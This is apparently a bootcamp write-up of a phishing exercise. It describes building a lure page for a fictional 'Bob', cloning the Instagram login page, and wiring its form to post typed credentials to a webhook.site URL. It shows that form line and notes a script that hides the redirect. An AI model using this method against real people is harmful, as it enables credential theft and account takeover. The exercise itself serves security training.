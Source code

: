 # Phishing Project

## Introduction

There are different types of phishing, however, many of them are based on the reproduction of a web document, to do this it is necessary to use different programming languages and tools.

### Challenge

- Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. 
- Your mission will be to obtain Bob's password of some platform of your choice.


___________________________________________________________

## Table of content

 - [Creating the webpage with HTML and CSS](#Creating-the-webpage-with-HTML-and-CSS)

- [Recreating Instagram Log-in page](#Recreating-Instagram-Log-in-page)

- [WebHook](#Collecting-data-with-WebHook)

- [Script with JavaScript](#JavaScript-is-the-last-step)


#### **_NOTE: The exercise has been done entirely with VScode and then tested on Brave browser._** 


#### Inspiration from [Zphisher Tool.](https://github.com/htr-tech/zphisher "https://github.com/htr-tech/zphisher") 


______________________________________________________________________


### Creating the webpage with HTML and CSS

An HTML webpage is built using a combination of HTML (Hypertext Markup Language) and CSS (Cascading Style Sheets) to define the structure and presentation of the content.


#### Steps to create the phishing webpage:

- Doctype declaration (`<!DOCTYPE html>`) to specify the HTML version.
- Opening and closing `<html>` tags to enclose the HTML document.
- `<head>` section containing metadata such as character encoding, viewport settings, title, and external CSS stylesheets.
- Opening and closing `<body>` tags to contain the visible content of the webpage.
- `<div>` elements with classes "container" and "text-area" for organizing content.
- Heading elements (`<h1>`, `<h2>`, `<h3>`) for displaying different levels of headings.
- `<img>` tag to display an image.
- `<ul>` (unordered list) with `<li>` (list item) elements to create a bulleted list.
- `<button>` element with a class "call-to-action" and an anchor (`<a>`) element inside for creating a clickable button.
- Anchors (`<a>`) with href attributes to create links to other pages.

Additionally, the file references resources such as an image file ("Shimi-terrier.jpg"), a favicon image ("pedigree-logo.png"), and a CSS file ("style.css") for styling the webpage.

Here to see the codes.  ------>   [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/phising.html) 

#### Putting some style with CSS

The HTML file itself without the "styling" from the CSS  it would look so chaotic, so I wrote down some lines in order to customize a bit the webpage.

Here you can find the CSS file if you are curious to see.     ----->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/style.css)


#### And here is the final result of our phishing page
![IMAGE of the HTML page](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/HTML-final.png)


________________________________

### Recreating Instagram Log-in page

##### Once you set up the HTML (with its CSS)
In my case I have created an html that works as an initial phishing webpage, with it a **"call to action"** button to redirect to a landing page that is a copy of Instagram Log-in page.

I managed to have a copy of the HTML and CSS of Instagram Log-In page through [CODEPEN.IO](https://codepen.io/azamatmj/pen/LdrMXv)

Looks pretty much the same as the original Instagram Log-In page, but I had to add the Header tag in the HTML in order to implement: Logo on the tab browser, link it with its CSS and finally in its body a  Script with JS (for the [WebHook]()).

Here is the HTML            ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/log-in.html) 

Here is the CSS                ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/log-in.css) 


##### Try to find the difference with the original site
![PHOTO OF THE LOG-IN PAGE](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/Log-In.png)


______________________________________


### Let's make it work now!

##### Collecting data with WebHook
To gather the information that our victim Bob is typing in order to log-in into Instagram to get in contact with Pedigree Team, we will be using [WebHook](https://webhook.site/)

Webhook.site, **an HTTP-based callback function that allows lightweight, event-driven communication between 2 application programming interfaces (APIs).** Webhooks are used by a wide variety of web apps to receive small amounts of data from other apps, but webhooks can also be used to trigger automation workflows in GitOps environments.

Once we get into the site, we will be given a unique URL  which we will need to insert in the HTML file, precisely in the "form" tag (in line 25) in order to communicate with the site:

```
<form id="myForm" action="https://webhook.site/1094a4f8-3820-40c4-9a7e-78383e181346" method= "POST" class="form">
```

__________________________________________


### Almost done!

##### JavaScript is the last step
We will need to finish with a script so we can make the Log-In webpage work and act like the real one and to make it **not redirect to the WebHook site** once the form is filled.


Finally we will insert before the closing tag of the body of our HTML file:
```
<script src="script.js"></script>
```
in order to implement it in the webpage.



Here is the JavaScript            ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/script.js) 

_______________________________________


### Done!

Finally we can test it. Once filled the form and clicked on "log in", we can visit our WebHook site and we will find the credentials needed!

![PHOTO OF WEBHOOK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/webhook.png)
